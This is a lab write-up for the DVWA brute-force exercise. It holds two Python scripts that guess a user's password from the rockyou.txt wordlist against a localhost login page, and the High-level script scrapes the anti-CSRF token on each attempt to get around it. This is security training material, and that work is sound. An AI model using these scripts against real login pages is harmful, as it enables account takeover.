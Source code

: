 # Brute Force
## Low and Medium
In the `Brute Force Low` level we find that the password is being shared in the URL of the website, like,

http://127.0.0.1/dvwa/vulnerabilities/brute/?username=admin&password=123456&Login=Login#

We can brute force the different URLs using this code and the rockyou.txt wordlist.

If the password is wrong, I will get, 
`Username and/or password incorrect.`
on the screen.

```py
import requests
def get_url(username,password):
    return f"http://127.0.0.1/dvwa/vulnerabilities/brute/?username={username}&password={password}&Login=Login#"

username = input("Enter Username : ")

COOKIES = {
    "PHPSESSID":"pf9kipp16vs54366mr21smurse",
    "security":"high"
}
with open("rockyou.txt") as f:
    while True:
        p = f.readline().strip()
        url = get_url(username,p)
        r = requests.get(url,cookies=COOKIES)
        print("Checking ", p)
        if 'incorrect' not in r.text:
            print(f"Found password for {username} = {p}")
            break
```
## High
Use the following code for High level
```py
import requests
def get_url(username,password,token):
    return f"http://127.0.0.1/dvwa/vulnerabilities/brute/?username={username}&password={password}&user_token={token}&Login=submit#"
username = input("Enter Username : ")
COOKIES = {
    "PHPSESSID":"km7qua1eth40r643ggc8ll6cbp",
    "security":"high"
}
passwords = open("rockyou.txt","r")
while True:
    session = requests.Session()
    r = session.get("http://127.0.0.1/dvwa/vulnerabilities/brute/index.php",cookies=COOKIES)
    body = r.text.split(" ")
    token = body[body.index("name='user_token'")+1].split("=")[1][1:-1]

    p = passwords.readline().strip()
    url = get_url(username,p,token)
    r = session.get(url,cookies=COOKIES)
    if 'incorrect' in r.text:
        print("Trying ",p)
    else:
        print("Found ",p)
        break
```